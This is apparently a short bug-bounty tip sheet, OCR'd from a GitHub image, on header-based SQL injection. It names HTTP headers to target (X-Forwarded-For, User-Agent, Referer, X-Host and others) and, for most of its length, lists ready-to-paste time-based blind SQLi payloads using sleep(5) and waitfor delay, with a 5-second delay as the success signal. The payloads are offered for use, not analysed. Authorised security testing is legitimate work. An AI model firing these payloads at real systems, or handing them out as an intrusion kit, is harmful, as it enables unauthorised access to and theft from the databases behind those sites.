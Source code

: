 ## Can't find SQL injections?

### You should try Header Based SQLi's 👇

🔴 What's that?
Vuln. Allows Hackers to exploit SQL injections through HTTP headers being sent between the browser and server.

🟡 But where to find it?
Inject payloads inside of basic HTTP headers

🟢 What payloads do I use?
Use my favorite payloads:
 
### `If the injection works, the response will have a delay of 5 seconds!`
 
# `INSIDE OF THESE HTTP HEADERS INJECT BELOW PAYLOADS`

`X-Forwarded-For`
`User-agent`
`Referer`
`Accept`
`Accept-Charset`
`Content-Type`
`Connection`
`Content-Length`
`X-Client-Ip`

`X-Remote-Ip`
`X-Host`
`X-Forwarded-Host`
 
# `USE THESE PAYLOADS`

* sleep(5)#
* 1 or sleep(5)#
* " or sleep(5)#
* ' or sleep(5)#
* " or sleep(5)="
* ' or sleep(5)='
* 1) or sleep(5)#
* ") or sleep(5)="
* ') or sleep(5)='
* 1)) or sleep(5)#
* ")) or sleep(5)="
* ')) or sleep(5)='
* ;waitfor delay '0:0:5'--
* );waitfor delay '0:0:5'--
* ';waitfor delay '0:0:5'--
* ";waitfor delay '0:0:5'--
* ');waitfor delay '0:0:5'--
* ");waitfor delay '0:0:5'--
* ));waitfor delay '0:0:5'--
* '));waitfor delay '0:0:5'--
* "));waitfor delay '0:0:5'-- *
